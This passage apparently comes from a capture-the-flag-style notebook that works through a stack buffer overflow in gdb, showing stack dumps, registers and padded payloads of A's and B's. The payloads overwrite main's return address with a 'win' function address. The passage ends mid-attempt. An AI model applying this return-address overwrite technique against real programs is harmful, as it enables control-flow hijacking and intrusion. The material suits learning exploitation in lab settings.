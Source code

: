 ```
(gdb) $ x/20x $sp
0x7fffffffddf8:    0xf7df26ca    0x00007fff    0x00000000    0x00000000
0x7fffffffde08:    0x004011f8    0x00000000    0x00000000    0x00000001
0x7fffffffde18:    0xffffdf08    0x00007fff    0xffffdf08    0x00007fff
0x7fffffffde28:    0xeac7f523    0xbdb47d53    0x00000000    0x00000000
0x7fffffffde38:    0xffffdf18    0x00007fff    0x00403e18    0x00000000
rax            0x0                 0
rbx            0x7fffffffdf08      140737488346888
rcx            0x7ffff7f9eaa0      140737353738912
rdx            0x4242424242424242  4774451407313060418
rsi            0x7ffff7f9eb23      140737353739043
rdi            0x7ffff7fa0a40      140737353747008
```

I wonder what would happen if I tried to overwrite that last stack data
I need 10 more words of data


So this time I sent it
16 A's + `addr[key]` + 4 0's + 56 b's
After `gets`
```
(gdb) $ x/80x $sp
0x7fffffffddb0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffddc0:    0x00404050    0x00000000    0x42424242    0x42424242
0x7fffffffddd0:    0x42424242    0x42424242    0x42424242    0x42424242
0x7fffffffdde0:    0xffffddc8    0x00007fff    0xffffddc0    0x00007fff
0x7fffffffddf0:    0x42424242    0x42424242    0x42424242    0x42424242
0x7fffffffde00:    0x00000000    0x00000000    0x004011f8    0x00000000

```

Before return
```
Breakpoint 2, 0x00000000004012ad in main ()
(gdb) $ x/80x $sp
0x7fffffffddf8:    0x42424242    0x42424242    0x00000000    0x00000000
0x7fffffffde08:    0x004011f8    0x00000000    0x00000000    0x00000001
(gdb) $ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012ad in main ()

```

And yay, segfault!. So I think it might be trying to call whatever is there after main returns?


So let's put an address in there:
16 A's + `addr[key]` + 4 0's + 48 b's + `addr[win]`

Win starts at `0x00000000004011b6`


Weird, I sent
16 A's + `addr[key]` + 4 0's + 48 b's + `addr[win]`  + 4 0's
